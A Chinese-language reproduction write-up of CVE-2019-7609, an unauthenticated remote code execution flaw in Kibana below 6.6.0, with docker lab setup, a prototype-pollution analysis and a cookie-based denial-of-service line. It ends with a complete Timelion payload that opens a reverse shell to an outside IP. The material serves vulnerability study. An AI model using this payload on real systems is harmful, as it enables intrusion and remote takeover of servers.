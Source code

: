 ```yaml
---
title: （CVE-2019-7609）kibana < 6.6.0 未授权远程代码命令执行
id: zhfly3005
---
```


# （CVE-2019-7609）Kibana < 6.6.0 未授权远程代码命令执行

## 一、漏洞简介

Kibana 是一款开源的数据分析和可视化平台，它是Elastic Stack成员之一，设计用于和Elasticsearch协作。

## 二、漏洞影响

kibana < 6.6.0

## 三、复现过程

#### 环境搭建

```
docker pull docker.elastic.co/kibana/kibana:6.5.4 
docker network create elastic 
docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana 
```

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

```
docker ps -a --no-trunc  # 找到启动脚本

在node启动命令后加上–inspect=0.0.0.0:9229 `docker commit kibana kibana-debug  # 保存修改后的镜像

docker rm -f kibana

docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器` 
```

kibana控制台：http://127.0.0.1:5601/ inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

```
.es(*).props(label.__proto__.cookie="aaa") 
```

![image](../img/9a3a297dbf10f93de4d4c1d15c3befa9.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![image](../img/44800d6579d52da535c974d4dde2bccc.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

```
if(obj.jsCode) eval(obj.jsCode) 这种白给的
express ejs模版引擎中的动态函数调用 
```

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了...）。

![image](../img/5683c9c5820ad96490a5e14f48ffd65c.png)

作者据此得出结论：kibana在创建新进程 创建进程可就是个敏感的行为了，能不能污染命令/参数呢？ 来动态看下进程创建的过程，

![image](../img/d3554995f17a97b92165d80eb8c1b3e7.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![image](../img/3e612bd87bca6bbcfcd1f2a1ebfb2c57.png)

跟进，

![image](../img/05681bac7f3e189036d358c6ab020915.png)

这里实际是在处理child_process.spawn(command[, args][, options])的第三个参数options。

![image](../img/eda6cc86f815f71873150bc1b960ca92.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。 作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。 回想下控制台报的错："Starting inspector on 0.0.0.0:9229 failed: address already in use"。 这句话透露出的是：此时正在创建一个node命令进程，并且使用了--inpect:0.0.0.0:9229参数。 这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE_OPTIONS变量，

![image](../img/fd15bd5f2823619147a2e89946b310d5.png)

通过这个变量，可以覆盖node进程的参数。 也就是说，现在我们能控制node进程的参数了。这就很有用了，比如--eval参数是可以直接执行代码的。

![image](../img/25e2762ea11200fd5c323941992b5ef1.png)

但是，NODE_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向--eval这种是用不了的。

不过作者找到了另一个参数--require，

![image](../img/20cce70b8077d6b301213cf164a15fa5.png)

这个有点像php里的auto_prepend_file，预加载一个文件。

![image](../img/30933216448a3f0da3ddbdd05205e08e.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？ 通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。 作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![image](../img/5b2be9e43d0629d0d4e019a053f52646.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ') 
```

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞